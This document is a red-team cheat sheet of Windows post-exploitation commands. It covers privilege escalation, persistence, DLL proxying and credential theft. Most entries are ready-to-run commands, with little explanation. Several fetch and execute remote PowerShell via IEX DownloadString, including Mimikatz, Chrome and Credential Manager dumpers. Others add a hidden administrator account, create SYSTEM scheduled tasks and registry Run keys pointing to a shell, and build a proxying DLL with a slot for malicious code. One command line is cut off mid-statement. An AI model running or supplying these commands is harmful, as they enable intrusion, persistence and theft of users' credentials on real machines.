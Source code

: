 ## Privilege Escalation

### PowerUp
```
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1')
Invoke-AllChecks
```

### SharpUp
```
https://github.com/GhostPack/SharpUp
```

### Sherlock
```
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1')
Find-AllVulns
```

### Watson
```
https://github.com/rasta-mouse/Watson
```

## Persistence

### Create new task
```
schtasks /create /sc minute /mo 1 /tn "eviloo" /tr C:\shell.exe /ru "SYSTEM"
schtasks /create /sc onlogon /tn "task-name" /tr "File" /ru "username"
```

### Add User
```
net user testuser P@ssw0rd /add
net localgroup administrators testuser /add
```

### Create Service
```
sc create evilsvc binPath= "c:\Windows\System32\calc.exe" start= "auto"
```

### Registry Keys
```
REG ADD HKEY_CURRENT_USER\SOFTWARE\Microsoft\CurrentVersion\Run /v test /d "C:\shell.exe"
REG ADD HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\CurrentVersion\Run /v test /d "C:\shell.exe"
```

### StartUp Folder (Run(shell:startup))
```
C:\Users\Hassan.saad\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

### DLL Proxying

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/HostEnumeration/Screen2.png?raw=true)

Create legitimate.cpp file.

```
#include "pch.h"
​
BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
​
extern "C" __declspec(dllexport) VOID exportedFunction1(int a)
{
    MessageBoxA(NULL, "Hi from legitimate exportedFunction1", "Hi from legitimate exportedFunction1", 0);
}
​
extern "C" __declspec(dllexport) VOID exportedFunction2(int a)
{
    MessageBoxA(NULL, "Hi from legitimate exportedFunction2", "Hi from legitimate exportedFunction2", 0);
}
​
extern "C" __declspec(dllexport) VOID exportedFunction3(int a)
{
    MessageBoxA(NULL, "Hi from legitimate exportedFunction3", "Hi from legitimate exportedFunction3", 0);
}
```

```
# Compile
"c:\Program Files\CodeBlocks\MinGW\bin\g++.exe" -shared c:\legitimate.cpp -o c:\legitimate.dll
​
# Execute
rundll32 c:\legitimate.dll,exportedFunction1
```

Create malicious DLL to redirect the execution to the legitimate DLL.

```
#include "pch.h"
​
// Redirect the execution to the legitimate DLL
#pragma comment(linker, "/export:exportedFunction1=legitimate.exportedFunction1")
#pragma comment(linker, "/export:exportedFunction2=legitimate.exportedFunction2")
#pragma comment(linker, "/export:exportedFunction3=legitimate.exportedFunction3")
​
BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    {
        // Insert your malicious code here
        MessageBoxA(NULL, "Hi from malicious dll", "Hi from malicious dll", 0);
    }
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

```
# Compile
"c:\Program Files\CodeBlocks\MinGW\bin\g++.exe" -shared c:\malicious.cpp -o c:\malicious.dll

# Execute
rundll32 c:\malicious.dll,exportedFunction1
```

Now when the call comes to malicious.dll it will forward this call to legitimate.dll

## Collecting Credentials

### Memory Credentials Dump
```
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/hassan0x/test/master/mim.ps1')
Invoke-Mimikatz -Command 'privilege::debug'
Invoke-Mimikatz -Command 'sekurlsa::logonpasswords'
```
![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/HostEnumeration/Screen1.png?raw=true)

### Windows Credentials Manager
```
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/peewpw/Invoke-WCMDump/master/Invoke-WCMDump.ps1')
Invoke-WCMDump
```

### Web Credentials Manager
```
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-WebCredentials.ps1')
Get-WebCredentials
```

### Chrome Passwords
```
https://github.com/ohyicong/decrypt-chrome-passwords/raw/main/decrypt_chrome_password.exe
```

### Chrome History
```
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/collection/Get-ChromeDump.ps1')
Get-ChromeDump > chromepwds.txt
```

### Other Saved Credentials
```
System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1')
Invoke-SessionGopher -Thorough
```
